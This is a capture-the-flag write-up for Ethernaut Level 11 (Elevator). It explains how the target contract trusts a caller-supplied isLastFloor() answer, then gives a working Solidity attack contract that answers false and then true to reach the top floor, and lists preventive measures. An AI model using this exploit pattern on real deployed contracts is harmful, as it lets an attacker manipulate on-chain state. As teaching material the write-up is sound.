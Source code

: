 
# Ethernaut Level 11 Elevator
- This level is Elevator Problem, where we need to reach the top floor.
- For solving this challenge, we need to understand flow of the contract.
- Building variable depends upon msg.sender so if our contract contains ```isLastFloor()``` we can manipulate the elevator as it is last floor.
- First we need to receive false to execute inside the if condition and again need to receive true to place the top as true.
# Code
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "contracts/elevator.sol";

contract ElevatorAttack{
    uint256 public count = 0;
    Elevator public elevator;

    constructor(address _elevator){
        elevator = Elevator(_elevator);
    }
    // need to be exact buiding interface function or else it won't execute
    function isLastFloor(uint _floor) external returns (bool){
        require(_floor > 0);
        count++;
        return count > 1;
    }
    // we can pass any floor
    function attack() external{
        elevator.goTo(21);
    }
    
} 
```
# Preventive Measures
-  Use trusted external contracts in developing contracts.
- Never update state in other contract decision.
 



